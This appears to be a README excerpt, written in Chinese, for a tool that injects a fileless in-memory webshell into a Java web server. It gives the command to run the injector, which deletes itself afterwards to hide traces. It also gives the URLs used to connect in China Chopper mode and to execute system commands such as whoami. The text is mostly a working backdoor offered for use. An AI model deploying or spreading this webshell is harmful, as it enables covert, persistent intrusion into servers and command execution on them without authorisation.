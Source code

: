 将release中的inject.jar agent.jar复制目标服务器。

运行inject.jar:

(测试时注意备份，会删除自身和agent.jar)

```jsp
java -jar inject.jar 123
```

连接内存马：
```jsp
http://ip:port/1.jsp?pass_the_world=123&model=chopper
```

执行命令：
```jsp
http://ip:port/1.jsp?pass_the_world=123&model=exec&cmd=whoami
```
